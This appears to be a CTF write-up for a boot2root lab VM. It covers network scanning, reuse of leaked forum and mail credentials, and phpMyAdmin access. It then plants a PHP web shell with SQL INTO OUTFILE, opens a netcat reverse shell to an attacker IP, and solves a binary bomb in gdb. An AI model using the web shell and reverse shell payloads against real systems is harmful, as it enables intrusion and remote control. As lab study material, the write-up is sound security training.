 installer kalilinux
sudo apt-get install gobuster

scanner le réseau avec nmap
cmd : nmap -sP 192.168.0-255.0/24

get the ip of the virtual machine

nmap the ip of the machine (there are on ports) port 80 et 443 open -> web server
cmd : nmap --top-ports 1000 -T4 -sC http://example.com
	OR
open armitage and scan within the range of the virtual machine

Go to the ip of the virtual machine on internet or curl it. There is a page.

nikto -h + adress ou dirb sur l'ip de la machine en http et https
cmd: nikto -h https://ip_machine
OR
cmd: dirb https://ip_machine

phpmyadmin + forum + mail

User login try !q\]Ej?*5K5cy*AJ in forum 6
(maybe password misstype?)
And right after that lmezard logged in, maybe it was a mistake from his part ..

user: lmezard
pwd: !q\]Ej?*5K5cy*AJ

Try to send mail to admin when you're logged in
your mail is : laurie@borntosec.net

We still have the webmail we didn't use, we try to logged on it with the mail adress and
the same pwd we still have.
Connecting to mail at webmail works.

In the mail we have the logged for phpmyadmin.
Connecting to db via the mail from the admin
user: root
pwd: Fg-'kKXBj87E:aJ$

If we go here ip_machine/icons/README, we see that the server is running on apache, by default the directory is /var/www

We need this command
INSERT INTO `mlf2_entries_cache`(`cache_id`, `cache_text`) VALUES (12,LOAD_FILE("/var/www/forum/index.php"))

We have the right to write in compile dir

If we look at the code we have directory, we can try to put in some file with that mysql command

select "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/test.php"

the good dir is /var/www/forum/templates_c/test.php (who is the compile dir in index.php)

reverse shell on that website without -e
https://www.nicolashug.com/pentest-et-securite/netcat-reverse-shell-e
launch on kali : nc -nvlp 1234
cmd in the php exploit : mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | nc MY_IP 1234 1>/tmp/backpipe

directory /home/LOOKATME
cd /home/LOOKATME; cat password
there is something on the password
user: lmezard
pwd: G!@M6f4Eatau{sF"

got a file called fun
need to parse it
I try to send it into a html in the dir i have the right and parse it.. But i was wrong
The file is actually a .tar
So i open a ssh port on the kali machine and connect it via lmezard account to copy it with scp and then untar it (tar -xzf fun)
We have the position of each file with //fileXX
I unrar it but there is still parsing to do. I have to get a "\n" at the end of each to escape the //file of the previous file so that the next line isn't escape. It works !
I have a message who tell me to ssh a pass.. let's do it

The result is used to login with user laurie in ssh
user: laurie
pwd: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

We see the bomb with a file readme
Bomb is compiled, we use hexray (ida64)

gdb --args ./bomb l To launch with arguments if needed

PHASE_1

	We see that the first_phase is a strcmp with "Public speaking is very easy."
	We type it -> victory
	We can see the adress with gdb if we disas phase_1 and x/s (for the character) and the adress of the register
	In strings not equal :
		Our 		x/s *0xBFFFF6F0
		Theirs 		x/s *0xBFFFF6F4


PHASE_2

	we need to disas phase_2,
	got this line :
		0x08048b56 <+14>:	lea    -0x18(%ebp),%eax
		0x08048b59 <+17>:	push   %eax
		0x08048b5a <+18>:	push   %edx
		0x08048b5b <+19>:	call   0x8048fd8 <read_six_numbers>
		- So we push the adress of %ebp in read_six_numbers

		0x08048b63 <+27>:	cmpl   $0x1,-0x18(%ebp)
		0x08048b67 <+31>:	je     0x8048b6e <phase_2+38>
		0x08048b69 <+33>:	call   0x80494fc <explode_bomb>
		- Here if the first number of ebp isn't 1 we don't jump and we explode


	After that we launch gdb (yeah), and we disas phase_2 and put a breakpoint just before the cmp which is just before the explosion
	and we look at eax register each time with "info r"
	break *0x08048b7e

	We got 1 2 6 24 120 720

PHASE_3

	We have a switch, with a scanf on "%d %c %d". We disas it (again) and we get the first value
	is the key of the switch, the second is compare with a value that is set in the swith
	(different for each case) and the third value is a key not to explode for each case.
	Solutions : 

	0 q 777
	1 b 214
	2 b 755
	3 k 251
	4 o 160
	5 t 458
	6 v 780
	7 b 524

PHASE_4

	The phase 4 is a recursive funtion, with breakpoint with dgb, we saw that the answer is just 9

PHASE_5

	We have to put a string of lenght 6 which is changed in a while, it is passed in a strings_not_equal function, break in that function and we check our modified string at :
		x/s *0xBFFFF6E0
	theirs are :
		x/s *0xBFFFF6E4
	We brute force it by testing all characters like "abcdef" "ghijkl" etc..
	and we see how it is modified and note it like : 'o' is changed to 'g', 'p' is changed to 'i' etc..
	the result is opekmq

PHASE_6

We have 6 numbers, a first while check if they are <= 6 and no two times the same.
There is operation after and we have to figure out the same, so we brute force it with a php script
